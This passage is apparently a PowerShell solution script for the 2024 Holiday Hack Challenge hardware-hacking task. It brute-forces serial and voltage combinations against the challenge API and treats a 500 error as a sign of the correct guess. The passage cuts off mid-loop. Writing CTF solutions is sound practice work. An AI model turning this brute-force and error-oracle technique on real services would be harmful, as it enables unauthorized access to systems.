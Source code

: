 ```
            voltage = [int]$voltage
        } | ConvertTo-Json

        Write-Host "`rCombination: $serial - Trying" -NoNewline

        try {
            $response = Invoke-WebRequest -UseBasicParsing -Uri $url `
                -Method "POST" `
                -WebSession $session `
                -Headers @{
                    "authority" = "hhc24-hardwarehacking.holidayhackchallenge.com"
                    "method" = "POST"
                    "path" = "/api/v1/complete"
                    "scheme" = "https"
                } `
                -ContentType "application/json" `
                -Body $bodyJson

            if ($response.Content -eq "true") {
                Write-Host "`rCombination: $serial - Success!" -ForegroundColor Green
                return $true
            }
            return $false
        }
        catch {
            if ($_.Exception.Response.StatusCode.value__ -eq 500) {
                Write-Host "`rCombination: $serial - Found it! (500 error)" -ForegroundColor Yellow
                Write-Host "`nCorrect combination found:"
                Write-Host "Serial: $serial"
                Write-Host "Voltage: ${voltage}V"

                # Prompt for real RID
                Write-Host "`nPlease enter your real Request ID: " -NoNewline -ForegroundColor Cyan
                $realRid = Read-Host

                # Try with real RID
                Write-Host "`nTrying combination with your Request ID..." -ForegroundColor Cyan
                $finalResult = Send-VoltageTest -serial $serial -voltage $voltage -requestId $realRid
                if ($finalResult -eq $true) {
                    Write-Host "Success! The challenge should now be completed!" -ForegroundColor Green
                }
                return "found"
            }
            return $null
        }
    }

    # Try each voltage level
    foreach ($voltage in @("3", "5")) {
        Write-Host "Trying all ${voltage}V combinations..." -ForegroundColor Cyan
        
        # Optimized ranges
        $d1 = 3..0
        $d2 = 9..0
        $d3 = 2..0
        $d4 = 3..0
        $d5 = 1..0
        $d6 = 3..0

        foreach ($i in $d1) {
            foreach ($j in $d2) {
```
